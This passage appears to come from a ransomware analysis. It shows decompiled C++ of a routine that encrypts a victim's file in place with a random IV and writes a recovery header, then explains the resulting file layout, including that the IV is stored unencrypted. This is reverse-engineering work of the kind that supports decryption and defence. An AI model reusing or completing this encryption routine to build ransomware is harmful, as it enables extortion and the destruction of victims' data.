 **`EncryptLargeFile`** uses the same logic as small files, except that it processes them in batches, so we won't look at it separately, but rather at the **EncryptSmallFile:** function.

```cpp
bool __fastcall EncryptSmallFile(
        HANDLE hFile,
        wchar_t *fileName,
        DWORD fileSize,
        char alignBytes,
        uint8_t *encryptionKey)
{
  int v6; // eax
  _BYTE *FileData; // [rsp+30h] [rbp-258h]
  void *lpBaseAddress; // [rsp+38h] [rbp-250h]
  HANDLE hObject; // [rsp+40h] [rbp-248h]
  BYTE *EncryptionIV; // [rsp+48h] [rbp-240h]
  _BYTE *EncryptionData; // [rsp+50h] [rbp-238h]
  char v12[528]; // [rsp+60h] [rbp-228h] BYREF

  hObject = CreateFileMappingW(hFile, 0i64, 4u, 0, fileSize, 0i64);
  if ( !hObject )
    return 0;
  lpBaseAddress = MapViewOfFile(hObject, 6u, 0, 0, 0i64);
  EncryptionIV = AllocateHeapAndGenerateRandomData(0x10u);
  EncryptionData = AllocateMemoryFromHeap(0x100u);
  PrepareEncryption(EncryptionData, encryptionKey, EncryptionIV);
  FileData = AllocateMemoryFromHeap(fileSize);
  *FileData = alignBytes;
  memcpy_0(FileData + 1, EncryptionIV, 0x10ui64);
  memcpy_0(FileData + 17, lpBaseAddress, fileSize - 17);
  EncryptBlock(EncryptionData, FileData + 17, fileSize - 17);
  memcpy_0(lpBaseAddress, FileData, fileSize);
  FreeHeapMemory(FileData);
  UnmapViewOfFile(lpBaseAddress);
  CloseHandle(hObject);
  CloseHandle(hFile);
  memset(v12, 0, 520ui64);
  v6 = wstrlen(fileName);
  memcpy_0(v12, fileName, (2 * v6));
  FreeHeapMemory(EncryptionIV);
  FreeHeapMemory(EncryptionData);
  return 1;
}
```

Now let's analyze the action of this function:

1. Preparing the data used for encryption (`encryptionKey` and `encryptionIV` are generated once in rantime after the virus starts)
2. Writing the data to a file for subsequent decryption:
    1. UINT8: Number of bytes used for alignment (so we can remove them from the file after decryption)
    2. UINT128: The generated IV (yes, it is just stored in the file in its original form)
3. The following bytes already write the encrypted content itself

